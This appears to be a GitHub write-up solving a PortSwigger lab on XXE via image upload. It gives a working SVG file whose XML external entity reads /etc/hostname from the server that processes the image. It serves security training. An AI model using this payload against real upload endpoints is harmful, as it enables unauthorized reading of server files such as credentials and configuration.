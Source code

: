 # [Lab: Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)

## Lab

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the  `/etc/hostname`  file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

Hint

The SVG image format uses XML.

## Analysis

the upload file function allows `svg` extension.

## Solutions

create a svg file:

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

upload this file and check:

![result.png](./../img/lab-8-result.png)
